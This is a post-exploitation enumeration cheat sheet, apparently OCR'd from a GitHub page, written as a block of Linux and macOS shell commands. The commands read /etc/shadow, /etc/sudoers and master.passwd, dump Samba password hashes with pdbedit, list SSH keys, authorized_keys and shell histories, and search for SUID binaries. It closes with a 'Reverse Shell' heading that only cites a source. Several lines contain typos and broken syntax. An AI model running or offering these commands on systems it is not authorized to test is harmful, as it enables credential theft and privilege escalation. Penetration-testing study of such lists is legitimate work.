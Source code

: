 ```
for user in $(cut -f1 -d: /etc/passwd); do echo $user; crontab -u $user -l; done # (Lists all crons)
cat /etc/resolv.conf
cat /etc/samba/smb.conf
pdbedit -L -w
pdbedit -L -v
cat /etc/exports
cat /etc/auto.master
cat /etc/auto_maste
cat /etc/fstab
cat /etc/exports
find /etc/sysconfig/ -type f -exec cat {} \;
cat /etc/sudoers

#Package Sources
cat /etc/apt/sources.list
ls -l /etc/yum.repos.d/
cat  /etc/yum.conf

# Finding Important Files
find /var/log -type f -exec ls -la {} \;
ls -alhtr /mnt
ls -alhtr /Volumes
ls -alhtr /tmp
ls -alhtr /home
ls /Users/*/.ssh/*
find /home -type f -iname '.*history'
ls -lart /etc/rc.d/
locate tar | grep [.]tar$
locate tgz | grep [.]tgz$
locate sql l grep [.]sql$
locate settings | grep [.]php$
locate config.inc | grep [.]php$
ls /Users/*/id*
locate .properties | grep [.]properties # java config files
locate .xml | grep [.]xml # java/.net config files
find /sbin /usr/sbin /opt /lib `echo $PATH | ‘sed s/:/ /g’` -perm -4000 # find suids

# Per User
ls -alh /Users/*/
ls -alh /Users/*/.ssh/
cat /Users/*/.ssh/authorized_keys
cat /Users/*/.ssh/known_hosts
cat /Users/*/.*hist*
find -type f /Users/*/.vnc /Users/*/.subversion
grep ^ssh /Users/*/.*hist*
grep ^telnet `/Users/*/.*hist*
grep ^mysql /Users/*/.*hist*
cat /Users/*/.viminfo
sudo -l # if sudoers is not readable, this sometimes works per user
crontab -l

# Priv (sudo’d or as root)
ls -alh /root/
cat /etc/sudoers
cat /etc/shadow
cat /etc/master.passwd # OpenBSD
cat /var/spool/cron/crontabs/*
lsof -nPi
ls /Users/*/.ssh/*

# Reverse Shell
starting list sourced from: http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
```